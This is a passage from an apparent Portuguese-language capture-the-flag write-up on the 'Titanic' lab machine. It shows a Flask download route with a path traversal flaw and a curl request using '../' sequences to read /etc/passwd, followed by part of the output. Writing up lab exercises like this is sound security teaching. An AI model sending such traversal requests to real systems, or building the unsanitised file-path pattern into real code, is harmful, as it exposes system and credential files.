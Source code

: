 ```text
________________________________________________

dev                     [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 3920ms]
```

Após descobrir o subdomínio `dev.titanic.htb`, adicionamos ao arquivo
`/etc/hosts` e acessamos via navegador.

## Acesso Inicial

Na instância Gitea, encontramos dois repositórios importantes:

- `docker-config`: Contém configurações Docker do Gitea e MySQL
- `flask-app`: Contém a aplicação web vulnerável

No repositório `flask-app`, identificamos uma vulnerabilidade de Path Traversal
na função `download_ticket()` na rota `/download`.

```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404
```

O repositório `docker-config` revelou o path `/home/developer/gitea/data:/data`
usado nas configurações do Gitea.

```yaml
services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"
    volumes:
      - /home/developer/gitea/data:/data
```

Utilizando a vulnerabilidade de Path Traversal, conseguimos extrair o passwd do sistema:

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../../etc/passwd'
```

```text
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
